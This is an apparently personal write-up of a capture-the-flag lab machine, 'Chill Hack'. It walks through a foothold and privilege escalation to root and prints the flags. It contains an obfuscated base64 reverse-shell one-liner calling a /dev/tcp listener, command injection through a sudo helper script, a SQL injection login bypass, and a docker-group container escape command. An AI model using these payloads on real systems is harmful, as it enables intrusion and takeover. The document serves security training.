









## TL;DR

In this challenge we exploit `RCE` on endpoint to get shell as `www-data`. Then, we move to user `apaar` using sudo on `.helpline.sh` and OS Command Injection.

We find hidden service on port `9001`, exploit SQL Injection and find the password of `anurodh`.

We escaping the container using `anurodh`, which is in the docker group, so we spawn container mounted to the root file system, and get the root flag.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                  
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.5                                                                                                             
| ftp-syst:                                                                                                                                                  
|   STAT:                                                                                                                                                    
| FTP server status:                                                                                                                                         
|      Connected to ::ffff:192.168.164.248                                                                                                                                                   
|      Logged in as ftp                                                                                                                                                                      
|      TYPE: ASCII                                                                                                                                                                           
|      No session bandwidth limit                                                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                                                     
|      Control connection is plain text                                                                                                                                                                           
|      Data connections will be plain text                                                                                                                                                                        
|      At session startup, client count was 3                                                                                                                
|      vsFTPd 3.0.5 - secure, fast, stable                                                                                                                                                   
|_End of status                                                                                                                                                                                                   
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                       
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt                                                                                                                                                
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                                                                                                           
| ssh-hostkey:                                                                
|   3072 eb:da:d7:99:72:2f:5e:47:d3:94:ea:91:d5:88:cd:9e (RSA)                                
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCshIa4x/QzhTmnkgeTH62z5lmXB/8152DtskRNm9R+dBg4U5XyAX3gU57qg7fsLegSZBZgF8CG5AyYrOhKOYkIvHDiXK34SjbF2RiSUCmOzezklcrMYmkyUz93l4OgOrQi+weHam80efrqyHmlJFI8uLRWLlR1xD+3WzRLk0H7Zl//S9IfbG3kGt92BHzFx+sttm
TIijr+KyLM1LG3H2r4/2enoxTlzv/Le+5YTSCmv8YW26INkIltLoyegY9pPnF55sLwExb/bC4Cm1T+mFRIfmJBybA3A4CIT3JcKhDiUi9r9gCJJ+QfdKG5bv1Tacc6p+17SH1tjyLnFRpq3qh+NLYViWzmBP14oxLKOPoChE2TLQ+lXmpzLvVINywaMoDfzXWpoo6TrDNtwPkJg+OKXgoNtQLQOkJwEJBWwAknbxc1Sg
sfn4C8QnZzLMRlaVCl9xUW9uGFW+SUrh3nUaD+rCzhh+3RE1ATNDdrzaoEJDRiJr9pHmpz3fP3sorwnKM=                                    
|   256 32:3f:91:47:00:f3:cb:5f:85:9a:48:16:bf:39:fc:2d (ECDSA)                                          
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNbcB8C1n3NZvCX2cmEJzJrGIhnb3DmTg56OOJJAIuHTcSIAFfrcyIP0u7p0c6MqMeZbqGSGdX6IyM6EkD9fOZA=                                                                          
|   256 51:27:83:38:76:01:da:47:9c:e4:64:17:7c:9f:ca:43 (ED25519)                                                     
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC+b1gAjv3flBRvqdd0z1h3vq05P9cJFB+cYMQk/MXPT                                                                                                                                                          
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))                                                    
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17                                                 
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                          
|_http-title: Game Info              
| http-methods:                                                                                                                                                                              
|_  Supported Methods: OPTIONS HEAD GET POST                                                  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `chillhack.thm` to our `/etc/hosts`.

### Exploit RCE on hidden endpoint

First, I logged in anonymously to the `ftp` service, and took `note.txt`
```bash
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ ftp anonymous@chillhack.thm
Connected to chillhack.thm.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||8580|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||13431|)
150 Opening BINARY mode data connection for note.txt (90 bytes).
100% |****************************************************************************************************************|    90        1.78 MiB/s    00:00 ETA
226 Transfer complete.
90 bytes received in 00:00 (0.55 KiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ cat note.txt 
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

Okay, let's visit the website;


Nothing too interesting. I used `ffuf` and find the endpoint `secret`:
```bash
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ ffuf -u 'http://chillhack.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt,.xml -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://chillhack.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

contact.php             [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 285ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 173ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 149ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 153ms]
index.html              [Status: 200, Size: 35184, Words: 16992, Lines: 644, Duration: 156ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 158ms]
secret                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 150ms]
```

for some reason, we can execute commands... Okay.


Let's paste the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

and take our reverse shell:



### move to user apaar using sudo on .helpline.sh and OS Command Injection

I checked for `sudo` permissions:
```bash
www-data@ip-10-66-169-21:/var/www$ sudo -l
Matching Defaults entries for www-data on ip-10-66-169-21:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-66-169-21:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

we can execute the file `/home/apaar/.helpline.sh` as sudo, this is the file:
```bash
www-data@ip-10-66-169-21:/var/www$ cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

Okay, we can simply give in the `$msg` some command, so, let's execute, and give `id` as msg
```bash
www-data@ip-10-66-169-21:/var/www$ sudo -u apaar /home/apaar/.helpline.sh
                                        

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: 
Hello user! I am ,  Please enter your message: id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
Thank you for your precious time!
``` 



Now, let's give `bash` as command:



after giving the penelope payload, we can grab the user flag:
```bash
apaar@ip-10-66-169-21:~$ cat local.txt 
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

### Find hidden service and exploit SQL Injection to find the password of anurodh

I checked for hidden services, and found http server on port `9001`:
```bash
apaar@ip-10-66-169-21:/tmp$ ss -tl
State                 Recv-Q                Send-Q                               Local Address:Port                                  Peer Address:Port                Process                
LISTEN                0                     4096                                 127.0.0.53%lo:domain                                     0.0.0.0:*                                          
LISTEN                0                     70                                       127.0.0.1:33060                                      0.0.0.0:*                                          
LISTEN                0                     128                                        0.0.0.0:ssh                                        0.0.0.0:*                                          
LISTEN                0                     151                                      127.0.0.1:mysql                                      0.0.0.0:*                                          
LISTEN                0                     511                                      127.0.0.1:9001                                       0.0.0.0:*                                          
LISTEN                0                     511                                              *:http                                             *:*                                          
LISTEN                0                     32                                               *:ftp                                              *:*                                          
LISTEN                0                     128                                           [::]:ssh                                           [::]:* 
```



I tried to curl, it looks like http service.
```bash
apaar@ip-10-66-169-21:/tmp$ curl 'http://127.0.0.1:9001/' 
<html>
<body>
<link rel="stylesheet" type="text/css" href="style.css">
        <div class="signInContainer">
                <div class="column">
                        <div class="header">
                                <h2 style="color:blue;">Customer Portal</h2>
                                <h3 style="color:green;">Log In<h3>
                        </div>
                        <form method="POST">
                                                                <input type="text" name="username" id="username" placeholder="Username" required>
                                <input type="password" name="password" id="password" placeholder="Password" required>
                                <input type="submit" name="submit" value="Submit">
                        </form>
                </div>
        </div>
</body>
</html>
```

Okay, I setup port forwarding using penelope based in tool:

```bash
portfwd 0.0.0.0:9001 -> 127.0.0.1:9001
```

and now, we can see the portal:



I tried to do simple `SQL Injection`, and it worked:
```bash
a'||'1'='1' -- -
```



I downloaded the hacker image, and analyzed it:
```bash
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ steghide --info hacker
"hacker":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "backup.zip":
    size: 750.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Okay, let's extract this:
```bash
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ steghide extract -sf hacker   
Enter passphrase: 
wrote extracted data to "backup.zip".
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ ls
backup.zip  chillhack  chillhack.pub  hacker  hacker.out  hashes.txt  nmap.txt  nmap.xml  note.txt  source_code.php
```


Next, i tried to unzip `backup.zip`, but it requires password. So, using `john` and `zip2john`, i find the password and unzipped it:
```bash
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ zip2john backup.zip > hashes.txt                           
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3 ts=2297 cs=2297 type=8
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
No password hashes left to crack (see FAQ)
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ john hashes.txt --show                                     
backup.zip/source_code.php:pass1word:source_code.php:backup.zip::backup.zip

1 password hash cracked, 0 left
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] source_code.php password: 
  inflating: source_code.php
```


This is `source_code.php`:
```php
<html>
<head>
	Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
			Email: <input type="email" name="email" placeholder="email"><br><br>
			Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
		</form>
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
```

We can base64 decode the string:
```bash
┌──(agonen㉿kali)-[~/thm/ChillHack]
└─$ echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
!d0ntKn0wmYp@ssw0rd
```

Now, we got the credentials:
```bash
anurodh:!d0ntKn0wmYp@ssw0rd
``` 

We can move to `anurodh` using `su anurodh`




### Privilege Escalation to Root

we can see we are inside `docker` group:
```bash
anurodh@ip-10-66-169-21:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```


So, let's spawn a docker, and execute shell.

First, I checked for images on the machine:
```bash
anurodh@ip-10-66-169-21:~$ docker images
REPOSITORY    TAG       IMAGE ID       CREATED       SIZE
alpine        latest    a24bb4013296   5 years ago   5.57MB
hello-world   latest    bf756fb1ae65   5 years ago   13.3kB
```

I used this article [https://medium.com/@iramjack8/container-vulnerabilities-part-2-3e3ae8c07934](https://medium.com/@iramjack8/container-vulnerabilities-part-2-3e3ae8c07934), we can use this command:
```bash
docker run -v /:/mnt -it alpine chroot /mnt sh
```

We mount the host file system to `/mnt`, and then chroot to /mnt, and spawn shell.
```bash
anurodh@ip-10-66-169-21:~$ docker run -v /:/mnt -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cd /root
# cat proof.txt


                                        {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
                                        |  Anurodh Acharya |
                                        ---------------------

                                     Let me know if you liked it.

Twitter
        - @acharya_anurodh
Linkedin
        - www.linkedin.com/in/anurodh-acharya-b1937116a


# 
```

So, the root flag is:
```bash
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```

